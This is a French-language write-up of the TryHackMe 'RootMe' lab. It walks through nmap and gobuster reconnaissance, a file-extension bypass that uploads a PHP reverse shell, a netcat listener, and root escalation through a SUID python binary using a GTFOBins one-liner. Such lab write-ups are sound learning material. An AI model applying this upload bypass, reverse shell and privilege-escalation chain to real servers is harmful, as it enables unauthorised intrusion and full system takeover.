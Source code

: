 ```yaml
---
title: RootMe
tags: [TryHackMe, Facile, Linux, Apache]
style: border
color: thm
comments: false
description: Exploitation d'un serveur web Apache
modified: 18/03/2025
---
```

Lien vers l'épreuve : <https://tryhackme.com/room/rrootme>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [Reconnaissance](#reconnaissance)
* [Analyse du serveur Apache](#analyse-du-serveur-apache)
* [Élévation de privilèges](#élévation-de-privilèges)

## Reconnaissance

```bash
nmap -T4 -A rootme.thm
```

{% capture spoil %}
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-12 14:12 CEST
Nmap scan report for rootme.thm (10.10.156.223)
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/12%OT=22%CT=1%CU=42224%PV=Y%DS=2%DC=T%G=Y%TM=670
OS:A67BC%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10C%T
OS:I=Z%CI=Z%II=I%TS=D)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=
OS:M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4
OS:B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%
OS:DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   31.33 ms 10.9.0.1
2   31.84 ms rootme.thm (10.10.156.223)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.37 seconds
{% endcapture %}
{% include elements/spoil.html %}

Le scan {% include dictionary.html word="NMAP" %} met en lumière la présence de 2 ports ouverts : un serveur {% include dictionary.html word="SSH" %} sur le port 22 et un serveur {% include dictionary.html word="HTTP" %} Apache en version 2.4.29 sur le port 80.

## Analyse du serveur Apache

```bash
gobuster dir -u http://rootme.thm -w /usr/share/wordlists/dirb/common.txt -x php,html
```

{% capture spoil %}

\===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
\===============================================================
[+] Url:                     http://rootme.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
\===============================================================
Starting gobuster in directory enumeration mode
\===============================================================
[...expurgé pour brièveté...]
/css                  (Status: 301) [Size: 306] [--> http://rootme.thm/css/]
/index.php            (Status: 200) [Size: 616]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 305] [--> http://rootme.thm/js/]
/panel                (Status: 301) [Size: 308] [--> http://rootme.thm/panel/]
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://rootme.thm/uploads/]
Progress: 13842 / 13845 (99.98%)
\===============================================================
Finished
\===============================================================
{% endcapture %}
{% include elements/spoil.html %}

L'outil {% include dictionary.html word="gobuster" %} nous permet d'identifier une page *panel* et une page *uploads*.

Pour l'instant, la page *uploads* est vide, et la page *panel* nous permet de téléverser des fichiers.

{% include elements/figure_spoil.html image="/images/THM/20241012/Capture_ecran_2024-10-12_panel.png" caption="Possibilité d'uploader des fichiers" %}

Nous tentons de téléverser une page {% include dictionary.html word="PHP" %} permettant d'obtenir un [*{% include dictionary.html word="reverse-shell" %}*](https://github.com/pentestmonkey/php-reverse-shell), mais sans succès : Il y a un filtrage sur le type de fichiers autorisés.

{% include elements/figure_spoil.html image="/images/THM/20241012/Capture_ecran_2024-10-12_php_interdit.png" caption="Upload de fichiers PHP interdit" %}

Nous utilisons l'outil d'exploitation web **Burp Suite** afin de trouver un contournement possible à la limitation, et nous parvenons à uploader le *{% include dictionary.html word="reverse-shell" %}* en ajoutant un chiffre à la fin de l'extension, indiquant la version de *{% include dictionary.html word="PHP" %}* à utiliser.

Le *{% include dictionary.html word="reverse-shell" %}* proposé par **pentestmonkey** nécessitant une version supérieure à 4, et la version actuelle étant la 8, nous nous sommes contenté de tester les valeurs de 4 à 8.

{% include elements/figure_spoil.html image="/images/THM/20241012/Capture_ecran_2024-10-12_php_intruder.png" caption="Upload de plusieurs versions php avec succès" %}

Nous avons à présent téléverser plusieurs versions de notre *{% include dictionary.html word="reverse-shell" %}*, il ne nous reste plus qu'à préparer un port en écoute avec {% include dictionary.html word="Netcat" %}, puis à nous rendre à la page *uploads* pour vérifier quelle(s) version(s) fonctionne(nt).

La version `php5` nous permet d'obtenir un shell fonctionnel.

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.9.1.73] from (UNKNOWN) [10.10.117.180] 39092
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:17:38 up 9 min,  0 users,  load average: 0.00, 0.23, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Nous commençons par améliorer notre *reverse-shell* avec la commande suivante :

{% gist ab3c791e25baa7b437d0324f6d3195af %}

Puis nous recherchons le flag utilisateur

```bash
find / -iname user.txt -type f 2>/dev/null
/var/www/user.txt

cat /var/www/user.txt
THM{y[...expurgé...]l}
```

## Élévation de privilèges

Cette épreuve est guidée, et nous sommes invités à trouver un fichier avec des permissions SUID. Ce type de permissions permet à n'importe quel utilisateur d'utiliser un programme avec les privilèges du propriétaire.

{% gist fb795c271652c9004ad77f11be2b66db %}

Nous utiliserons la commande ciblant les SUID (`-perm /4000`)

```bash
find / -user root -perm /4000 -exec ls -ldbh {} \; 2>/dev/null
```

{% capture spoil %}
[...expurgé pour brièveté...]
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 44K Mar 22  2019 /usr/bin/chsh
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 40K Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec
[...expurgé pour brièveté...]
-rwsr-xr-x 1 root root 43K Jan  8  2020 /bin/mount
-rwsr-xr-x 1 root root 44K Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 63K Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 27K Jan  8  2020 /bin/umount
{% endcapture %}
{% include elements/spoil.html %}

Il est assez peu courant d'avoir des privilèges aussi élevé sur le binaire **Python**.

Le site [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) nous permet de trouver la commande nécessaire pour élever nos privilèges et devenir root.

```bash
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'

bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.4#
```

Nous avons à présent les droits root sur la machine, nous pouvons terminer par trouver le flag **root.txt**

```bash
cat /root/root.txt
THM{p[...expurgé...]n}
```

